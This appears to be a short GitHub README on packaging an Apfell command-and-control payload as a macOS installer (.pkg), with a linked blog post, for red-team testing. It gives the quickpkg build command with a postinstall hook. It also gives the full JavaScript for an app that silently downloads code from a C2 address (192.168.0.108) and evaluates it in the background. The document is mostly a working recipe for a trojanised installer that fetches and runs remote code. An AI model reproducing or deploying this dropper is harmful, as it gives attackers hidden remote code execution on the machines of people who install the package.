 # Apfell Payload
Making an Installer package payload with Apfell

[Blog post about it](https://kphongag.blogspot.com/2020/04/testing-with-apfell-javascript-for.html)

**Testing Environment:**  
Ubuntu 18.04.1 running [Apfell v1.4](https://github.com/its-a-feature/Apfell)\
MacOS 10.15.3


## Making the package payload
Using this [script](https://github.com/scriptingosx/quickpkg) to make pkg. 
Run to build pkg:\
`python quickpkg --install-location /tmp --postinstall ./Scripts/postinstall.sh apfelljxa.app`


## Creating apfelljxa.app with Script Editor
Create apfelljxa.app with the following Javascript:    
`var app = Application.currentApplication();`\
`app.includeStandardAdditions = true;`\
`app.doShellScript("osascript -l JavaScript -e \"eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.0.108:80/api/v1.4/files/download/8e3e832d-ffc1-416a-8d77-f578759e0c69')), $.NSUTF8StringEncoding)));\" &>/dev/null &");`
  
  
Notes: 
- Exclude Example folder when building the .pkg
- This can also be done without an application in the postinstall script
